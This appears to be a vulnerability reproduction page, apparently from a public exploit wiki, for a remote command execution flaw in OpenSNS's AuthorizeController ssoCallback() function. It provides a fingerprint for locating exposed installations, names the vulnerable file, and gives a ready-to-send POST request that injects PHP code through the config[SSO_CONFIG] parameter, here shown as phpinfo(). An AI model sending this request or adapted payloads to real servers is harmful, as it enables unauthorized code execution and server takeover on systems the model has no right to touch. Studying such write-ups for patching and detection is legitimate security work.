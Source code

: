 # OpenSNS AuthorizeController.class.php Background Remote Command Execution Vulnerability

## Vulnerability Description

OpenSNS AuthorizeController.class.php file The ssoCallback() function has a command execution vulnerability, and you can obtain server permissions when logging in.

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">OpenSNS</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">icon_hash="1167011145"</span>

## Vulnerability reappears

The login page is as follows

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634371874190-3653480e-380a-4cdc-81fc-7d560bc7d0dc-20220313235551772.png)

The vulnerable file is `Application/Admin/Controller/AuthorizeController.class.php`

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634375559893-600bdee5-03fe-4da2-8762-c41ded4f3797.png)

The config parameter is controllable, and the construction request can be written to execute any command through file_put_contents.

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634376077943-1f4ae612-7dc6-44a8-963d-0235ce16d1fd.png)

Construct the request package

```php
POST /admin.php?s=/Authorize/ssoCallback\

config[SSO_CONFIG]=phpinfo();
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1634376114084-4e3cf1c1-1a1b-4169-bf65-322e2002a947.png)
